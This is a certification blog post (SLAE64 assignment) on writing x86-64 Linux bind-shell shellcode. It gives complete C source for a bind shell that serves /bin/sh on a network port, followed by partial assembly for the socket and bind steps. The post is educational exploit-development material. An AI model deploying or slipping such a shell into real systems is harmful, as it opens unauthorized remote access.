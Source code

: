 Assignment #1 – Bind shell with password
========================================

The objective of this assignment was to create a shellcode that binds to a port and, if provided with the correct password, spawns a shell. The final shellcode must not have any null bytes.

Writing the bind shell
----------------------

I started by writing the bind shell itself, with no password. To do this it's easier to start from a C version like the one below. This code has no error checking at all; and the shellcode won't have either.

    #include <stdlib.h>
    #include <unistd.h>
    #include <strings.h>
    #include <sys/socket.h>
    #include <arpa/inet.h>

    int main(int argc, char **argv)
    {
        struct sockaddr_in server;
        int sock, new;
        char *arguments[] = {"/bin/sh", 0};
        
        sock = socket(AF_INET, SOCK_STREAM, 0);

        server.sin_family = AF_INET;
        server.sin_port = htons(atoi(argv[1]));
        server.sin_addr.s_addr = INADDR_ANY;
        bzero(&server.sin_zero, 8);

        bind(sock, (struct sockaddr *)&server, sizeof(server));
        listen(sock, 2);
        new = accept(sock, NULL, NULL);
        close(sock);

        dup2(new, 0);
        dup2(new, 1);
        dup2(new, 2);

        execve(arguments[0], arguments, NULL);
    }

Breaking it down we have seven parts:

  1. `socket()`. Create a socket to use in communications
  1. `bind()`. Bind a socket to an address
  1. `listen()`. Mark the socket as being able to accept incoming connections
  1. `accept()`. Accept connection requests and create new sockets
  1. `close()`. Close the listening socket
  1. `dup2()`. Duplicate file descriptors to connect `stdin`, `stdout` and `stderr` to the incoming connection
  1. `execve()`. Replace the current process image with `/bin/sh`

With the C code as reference each os these parts was implemented in assembly as follows.

----

### `socket()`

You need to call [`syscall(2)`][man_2_syscall] with the appropriate arguments. To figure out the values of the macros `AF_INET` and `SOCK_STREAM` you can use Python:

    $ python3
    >>>
    >>> import socket
    >>> socket.AF_INET
    <AddressFamily.AF_INET: 2>
    >>> socket.SOCK_STREAM
    <SocketKind.SOCK_STREAM: 1>

The numbers for syscalls can be found in `/usr/include/asm/unistd_64.h`. From that file we know `socket` corresponds to syscall 41.

    ...
    #define __NR_socket 41
    #define __NR_connect 42
    #define __NR_accept 43
    ...

You can a syscall by putting its number in RAX and its arguments in RDI, RSI, RDX, R10, R8, R9, in that order. Lastly you can the syscall with the `syscall` instruction. The return value of the syscall is stored in RAX. With all this information we are able to write the following code.

    ; sock = socket(AF_INET, SOCK_STREAM, 0)
    ; AF_INET = 2
    ; SOCK_STREAM = 1
    ; __NR_socket = 41

    mov rax, 41
    mov rdi, 2
    mov rsi, 1
    mov rdx, 0
    syscall

    mov rdi, rax

### `bind()`

Calling [`bind(2)`][man_2_bind] is probably the part of this shellcode most prone to confusion. The first argument is the ID (know as "file descriptor") of the socket created by `socket`.

The second argument is a pointer to a structure of the type `sockaddr_in`. So you need to create this structure in memory and then get a pointer to it. To understand this structure [Beej's Guide to Network Programming][beej_sockaddr_in] is a valuable resource. We see `sockaddr_in` is declared as follows:

    struct sockaddr_in {
        short            sin_family;
        unsigned short   sin_port;
        struct in_addr   sin_addr;
        char             sin_zero[8];
    };

This definition lets you know the memory layout for the structure. `sin_family` and `sin_port` are `short` which correspond to 2 bytes. `sin_addr` is a `struct in_addr` which from Beej's Guide you can see corresponds to a `long`, i.e. 4 bytes. And lastly `sin_zero` is an 8-`char` array, or 8 bytes in total. So the memory layout of `sockaddr_in` in the stack can be represented as follows:

      0         1   2         3   4                       7
    +------+------+------+------+------+------+------+------+
    | sin_family  |  sin_port   |         sin_addr          |    ↑ lower addresses
    +------+------+------+------+------+------+------+------+    |  stack
    |                       sin_zero                        |    | higher addresses
    +------+------+------+------+------+------+------+------+

Since the stack grows from higher to lower addresses the structure members are pushed onto the stack in reverse order from the one they appear in the declaration: `sin_zero`, then `sin_addr`, `sin_port` and lastly `sin_family`.

In the C code you can see the port to bind to is passed to `htons()`. This functions stands for "host-to-network-short" and converts ports numbers from the the format used in the host (your PC) to that used in the network (your local network, the Internet, etc.). This is closely related with [endianness][endianness]. From `man htons` you see that on i386 network byte order corresponds to big-endian:

> On the i386 the host byte order is Least Significant Byte first, whereas the network byte order, as used on the Internet, is Most Significant Byte first.

Since the endianness of Intel processors is litte-endian you have to push the bytes of the port in reverse order: if you want to use port 4444 (hex 0x115c) you push 0x5c11. You can use Python to do this conversion for you:

    $ python3
    >>>
    >>> import socket
    >>> hex(socket.htons(4444))
    '0x5c11'

At last the third argument to the `bind` syscall is the size of the address structure, which as seen in the memory diagram above is 16 bytes.

    ; server.sin_family = AF_INET;    short
    ; server.sin_port = htons(4444);    unsigned short
    ; server.sin_addr.s_addr = INADDR_ANY;    unsigned long
    ; bzero(&server.sin_zero, 8);
    ;
    ; bind(sock, (struct sockaddr *)&server, sockaddr_len)
    ; INADDR_ANY = 0
    ; AF_INET = 2
    ; __NR_bind = 49

    xor rax, rax
    push rax
    mov dword [rsp-4], eax
    sub rsp, 4
    push word 0x5c11  ; htons(4444)
    push word 2

    ; bind
    mov rax, 49
    mov rsi, rsp ; &server
    mov rdx, 16  ; sizeof(sockaddr_in)
    syscall



[man_2_syscall]: https://linux.die.net/man/2/syscall
[man_2_bind]: https://linux.die.net/man/2/bind
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7

